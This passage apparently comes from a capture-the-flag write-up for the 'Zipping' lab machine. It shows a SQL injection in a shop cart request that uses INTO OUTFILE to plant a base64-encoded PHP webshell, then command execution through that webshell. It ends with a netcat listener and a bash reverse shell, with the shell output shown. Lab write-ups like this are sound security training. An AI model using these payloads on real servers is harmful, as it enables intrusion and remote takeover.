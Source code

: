 Could we write to a library? As the queries are typically run by the `mysqld` user. Let's try write to `/var/lib/mysql/`...

```
POST /shop/index.php?page=cart HTTP/1.1
...

quantity=1&product_id=%0a';select+@@version+into+outfile+'/var/lib/mysql/version.txt'; --1
```

Using our previous script, we get an output reading `/var/lib/mysql/version.txt` with the script!

`10.6.12-MariaDB-0ubuntu0.22.10.1`

Let's use some Base64 to make a PHP webshell, using a [tiny GET webshell](https://github.com/bayufedra/Tiny-PHP-Webshell#simple-http-requests-get-method-shell).

```
POST /shop/index.php?page=cart HTTP/1.1
...

quantity=1&product_id=%0a';select+from_base64('PD89YCRfR0VUWzBdYD8%2b')+into+outfile+'/var/lib/mysql/webshell.php'; --1
```

So we can use [zipping.htb/shop/index.php?page=/var/lib/mysql/webshell](http://zipping.htb:80/shop/index.php?page=/var/lib/mysql/webshell) to visit our webshell, and use the `0` param to send commands!

Visiting [zipping.htb/shop/index.php?page=/var/lib/mysql/webshell&0=whoami](http://zipping.htb:80/shop/index.php?page=/var/lib/mysql/webshell&0=whoami) gives us `rektsu`!

Now, I had a bit of trouble getting a reverse shell with the webshell so I ended up doing it like this:

I setup a listener on my host:

```
$ nc -lvnp 4445
```

I get a bash reverse shell from RevShells and base64 encoded it. I then run all the commands in order on the server.

```
echo "<b64 encoded bash reverse shell>" | base64 -d > /home/rektsu/revshell.sh
chmod +x /home/rektsu/revshell.sh
bash /home/rektsu/revshell.sh
```

and I got my reverse shell!

```
Connection from 10.10.11.229:36792
bash: cannot set terminal process group (1134): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$
```

## Root Flag

